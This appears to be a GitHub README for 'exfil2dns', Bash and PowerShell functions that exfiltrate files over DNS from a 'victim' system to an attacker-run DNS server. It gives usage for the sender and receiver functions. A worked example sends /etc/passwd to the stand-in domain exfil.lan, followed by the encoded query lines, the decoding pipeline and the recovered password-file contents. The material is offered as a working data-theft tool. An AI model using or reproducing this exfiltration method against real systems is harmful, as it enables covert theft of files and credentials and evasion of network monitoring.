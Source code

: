 exfil2dns is stupid-simple bash/powershell functions that can be used to exfiltrate files to a DNS server.
There are many other DNS exfiltration tools that are much better, but I wrote this for something very simple that only used Bash and Powershell.

Bash functions are dnssend and dnsrec, and there is a dnssend function for Powershell.  Run dnsrec on your dns server and run dnssend on the victim system.

Usage on server: # dnsrec <filetorecieve> <domain>
Usage on victim: # dnssend <filetosend> <domain> [linenumber]
The line number is optional.  It retransmits a specific line in case the packet was dropped
The dnssend Powershell function double-wraps with base64, so you will need to add another "|base64 -d" when you restore the file.

```
Example on victim:
~ # dnssend /etc/passwd exfil.lan
line 1 / 12   H4sIAGZv81sAA21UTW+jMBC951dw3JUSGQJkU9+6WmkvbQ/t/gEHDFgFO7INJP3.1542680422.1.x.exfil.lan
line 2 / 12   1OzPOByloHDTP8+YxjMexxnh+4jGYRZeF50FpdhCuWZVCdkYDIwG7ANY7yxxQ7h.1542680422.2.x.exfil.lan
line 3 / 12   7TpjW10ivcPfEtGMWXSe7sgJSCocdKOSySdAGsjO/yPM04QXYVZQhXtegkKuV8F.1542680422.3.x.exfil.lan
line 4 / 12   /MASGfiPkh2Aovb8WTL0WWDsKwQRSMZwRm/PQL9Fxg4RHZHY1rWHstFcdUCfQ9G.1542680422.4.x.exfil.lan
line 5 / 12   LiUEb8bVcsS6n8DInYgHPMvo+wKLSWJcBCY5Ac9yxnHclMIL7HWK67ZBuYCWDlA.1542680422.5.x.exfil.lan
line 6 / 12   Unz2+CnoO6wIpIfhL1bXK4RSle1yv8M1K19ELbEavQota2iBAtHl2rYXHdmQJrr.1542680422.6.x.exfil.lan
line 7 / 12   +Iot99vXmXR2M9Sn2cnZdd9EOUndI/r2IHFjIX+msOpjzjWdPshOdlE0hanqASq.1542680422.7.x.exfil.lan
line 8 / 12   ZeKcfSqcuMVzFAYwSTGrtOwYij6ByEoSReNNVp9Ca+MXq/XcHd6HEwihSmtROvk.1542680422.8.x.exfil.lan
line 9 / 12   TVJLPxr7SYpwneLspvgWIpdudVDZdz2YC6+qJVUrnWkHSapb+OU31fcQsTOta8p.1542680422.9.x.exfil.lan
line 10 / 12   ETQyiUaQB1wPuxzPiqPvz9hGFW08i2HcUIvbm+ndwV9E+DOkeNDLOWWM6yXBzWr.1542680422.10.x.exfil.lan
line 11 / 12   cXvkQWvCUczP08deUeqK4h5jZ+YNKnYGh+elUoIH3iSR5zQNPqnR1Y9VjMfxW0n.1542680422.11.x.exfil.lan
line 12 / 12   S//BAAA.1542680422.12.x.exfil.lan
Flushing buffer.  You can ctrl-c on receiver when you see the ... dots on the receiver
done



Example on server:
~ # dnsrec /tmp/passwordfilefromvictim exfil.lan
+ means receiving data.  Wait for the dots, then ctrl-c.
Once complete, run: cat /tmp/passwordfilefromvictim |sort -t'.' -k3 -n |uniq |sed -e 's/\(.*\)\.[[:digit:]]*\.[[:digit:]]*.x.exfil.lan.*/\1/g' |base64 -d |gzip -d

++++++++++++++++++++++++...............^C

~ # cat /tmp/passwordfilefromvictim |sort -t'.' -k3 -n |uniq |sed -e 's/\(.*\)\.[[:digit:]]*\.[[:digit:]]*.x.exfil.lan.*/\1/g' |base64 -d |gzip -d |head
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```

